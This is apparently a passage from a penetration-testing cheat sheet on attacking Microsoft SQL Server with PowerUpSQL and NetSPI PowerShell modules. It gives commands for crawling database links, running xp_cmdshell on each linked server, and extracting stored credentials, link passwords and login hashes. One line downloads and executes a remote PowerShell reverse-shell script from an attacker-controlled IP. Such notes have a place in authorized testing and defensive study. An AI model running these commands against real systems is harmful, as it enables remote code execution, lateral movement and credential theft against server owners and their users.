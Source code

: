 - `PowerUpSQL`:	

	```powershell
	# Look for links to remote servers (public privs are enough)
	Get-SQLServerLink -Instance "SQLServer1" -Verbose

	# Enumerate database links. PowerUpSQL saves us from managing these pesky quotes: 
	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Verbose

	# Execute the query on each server along the link
	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Query "exec master..xp_cmdshell 'cmd /c calc.exe'" -Verbose
	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Query "exec master..xp_cmdshell 'cmd /c calc.exe'" -Verbose | select Instance,CustomQuery

	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.X:8080/InvokePowerShellTcpEx.ps1'')"'
	```

- `NetSPI Powershell Modules`:

	```powershell
	# Extracting passwords from MSSQL instances
	Import-Module .\Get-MSSQLCredentialPasswords.psm1
	Get-MSSQLCredentialPasswords

	# Extracting passwords from database links
	Import-Module .\Get-MSSQLLinkPasswords.psm1
	Get-MSSQLLinkPasswords

	# Extracting all MSSQL passwords
	Import-Module .\Get-MSSQLAllCredentials.psm1
	Get-MSSQLAllCredentials
	```

## Persistence


###  SQL Login PW Hash Dumping

```powershell
# PowerUpSQL
# Returns logins from target SQL Servers
Get-SQLServerPasswordHash -Verbose -Instance "SQLServer1\Instance1" | ft -AutoSize
```
